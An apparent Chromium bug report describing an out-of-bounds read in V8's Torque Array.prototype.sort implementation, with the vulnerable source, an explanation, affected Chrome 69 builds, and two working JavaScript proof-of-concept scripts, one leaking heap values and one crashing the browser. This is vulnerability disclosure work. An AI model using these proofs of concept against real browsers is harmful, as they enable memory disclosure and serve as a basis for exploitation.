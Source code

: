 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/builtins/array-sort.tq?rcl=dd5dd45db8522e2c7b3b3b9ae80132b6d0b8bc24&l=185
  macro ArrayInsertionSort<E : type>(
      context: Context, receiver: Object, elements: Object,
      initialReceiverMap: Object, initialReceiverLength: Number, from: Smi,
      to: Smi, userCmpFn: Object, sortCompare: CompareBuiltinFn)
  labels Bailout {
    for (let i: Smi = from + 1; i < to; ++i) {
      assert(CanUseSameAccessor<E>(
          context, receiver, initialReceiverMap, initialReceiverLength));

      let element: Object = Load<E>(context, elements, i) otherwise Bailout; // ***3***
      let j: Smi = i - 1;
      for (; j >= from; --j) {
        assert(CanUseSameAccessor<E>(
            context, receiver, initialReceiverMap, initialReceiverLength));

        let tmp: Object = Load<E>(context, elements, j) otherwise Bailout;
        let order: Number = CallCompareFn<E>(
            context, receiver, initialReceiverMap, initialReceiverLength,
            userCmpFn, sortCompare, tmp, element)
        otherwise Bailout;
        if (order > 0) {
          Store<E>(context, elements, j + 1, tmp);
        } else {
          break;
        }
      }
      Store<E>(context, elements, j + 1, element);
    }
  }

[...]

  macro ArrayQuickSortImpl<E : type>(
      context: Context, sortState: FixedArray, fromArg: Smi, toArg: Smi)
  labels Bailout {
[...]
    while (to - from > 1) { // ***2***
      if (to - from <= 10) {
        ArrayInsertionSort<E>(
            context, receiver, elements, initialReceiverMap,
            initialReceiverLength, from, to, userCmpFn, sortCompare)
        otherwise Bailout;
        break;
      }

[...]

      if ((to - high_start) < (low_end - from)) {
        ArrayQuickSort<E>(context, sortState, high_start, to); // ***1***
        to = low_end;
      } else {
        ArrayQuickSort<E>(context, sortState, from, low_end);
        from = high_start;
      }
    }
  }

After making a recursive call to |ArrayQuickSort|(1), |ArrayQuickSortImpl| doesn't ensure it still can use the fast
path to access the array. Therefore, in the next iteration of the loop(2), loads performed before the first call to
|CallCompareFn|(3) might read OOB data.

<b>VERSION</b>
Google Chrome 69.0.3452.0 (Official Build) dev (64-bit)
Google Chrome 69.0.3465.0 (Official Build) canary (64-bit) 

<b>REPRODUCTION CASE</b>
This repro case shows leaked heap values:
<script>
let floatArray = new Float64Array(1),
    intArray = new Uint32Array(floatArray.buffer);

function tohex(value) {
  floatArray[0] = value;
  return intArray[1].toString(16) + intArray[0].toString(16).padStart(8, "0");
}

function gc() {
  for (let i = 0; i < 1024 * 1024 / 0x10; i++) {
    let a = new String();
  }
}
rand = n => Math.floor(Math.random() * n);
check = a => a === undefined || a.toString().length < 6;

oobValues = [];

for (let i = 0; i < 1000; ++i) {
  array = [];
  let len = rand(30);
  for(let i = 0; i < len; ++i) {
    array[i] = i + 0.1;
  }

  counter = 0;
  array.sort((a, b) => {
    if (!check(a)) {
      oobValues.push(a);
    }
    if (!check(b)) {
      oobValues.push(b);
    }
    if (counter++ == rand(30)) {
      array.length = 1;
      gc();
    }
    return a - b;
  });
}

alert(oobValues.map(v => tohex(v)));
</script>


This one crashes Chrome:
<script>
function gc() {
  for (let i = 0; i < 1024 * 1024 / 0x10; i++) {
    let a = new String();
  }
}

rand = n => Math.floor(Math.random() * n);
for (let i = 0; i < 1000; ++i) {
  array = [];
  let len = rand(30);
  for(let i = 0; i < len; ++i) {
    array[i] = [i + 0.1];
  }

  counter = 0;
  array.sort((a, b) => {
    a = a || [0];
    b = b || [0];

    if (counter++ == rand(30)) {
      array.length = 1;
      gc();
    }
    return a[0] - b[0];
  });
}
</script>

The following assertion is hit in debug builds:
assert 'CanUseSameAccessor<E>( context, receiver, elements, initialReceiverMap, initialReceiverLength)' failed at ../../src/builtins/array-sort.tq:194:6